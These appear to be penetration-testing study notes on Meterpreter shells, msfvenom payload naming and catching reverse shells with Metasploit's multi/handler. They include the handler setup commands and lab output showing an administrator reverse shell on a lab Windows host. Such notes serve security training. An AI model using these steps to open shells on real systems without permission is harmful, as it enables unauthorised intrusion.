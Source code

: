 ## Meterpreter Shell
* Metasploit's own brand of fully-featured shell.
* Completely stable.
  * Very good when working with Windows target hosts.
* Inbuilt functionality such as file uploads and downloads.
* Use meterpreter shell to use any of Metasploit's post-exploitation tools.
* Must be caught in Metasploit.

## Payload Naming Conventions
* Basic msfvenom naming convention is `<OS>/<arch>/<payload>`.
  * E.g. `linux/x86/shell_reverse_tcp`.
  * This would generate stageless reverse shell for x86 Linux target host.
* Exception is Windows 32bit targets where arch is not specified.
  * E.g. `windows/shell_reverse_tcp`.
  * Arch specified as normal For 64bit Windows target host.
* Stageless payloads denoted with underscores `_`.
* Staged payloads denoted with another forward slash `/`.
* Rule also applies to Meterpreter payloads.
* `msfvenom --list payloads` lists all available payloads.
  * Can then be piped into `grep` to search for specific set of payloads.

## Metasploit multi/handler
* Superb tool for catching reverse shells.
1. Open Metasploit with `msfconsole`
2. `use multi/handler`.
3. Press enter.
* Now primed to start a multi/handler session.
* `options` to look at available options.
  * Identical to options set when generating shellcode with Msfvenom.
  * **PAYLOAD** a payload specific to the target.
      * `set PAYLOAD <payload>`
  * **LHOST** a listening IP address.
      * `set LHOST <listen-address>`
      * LHOST must be specified as metasploit will not listen on all network interfaces like netcat or socat will.
  * **LPORT** a port with which to receive a shell.
      * `set LPORT <listen-port>` 
* `exploit -j` starts listener as a job in the background. 
* Must be run with sudo permissions to listen on a port under 1024.
```
msf6 exploit(multi/handler) >
[+] Sending stage (336 bytes) to 10.10.2.57
```
* Metasploit catches connection.
* Remainder of payload is sent to target host.
```
[+] Command shell session 1 opened (10.11.12.223:443 -> 10.10.2.57:54226) at 2020-09-12 21:18:35 +0100
```
* multi/handler originally backgrounded.
* Use `sessions 1` to foreground session again.
```
msf6 exploit(multi-handler) > session 1
[+] Starting interation with 1...
```
* Reverse shell established.
```
whoami
win-shells\administrator
```
* Use `sessions` to see all active sessions.
* Use `sessions <number>` to select appropriate session to foreground.
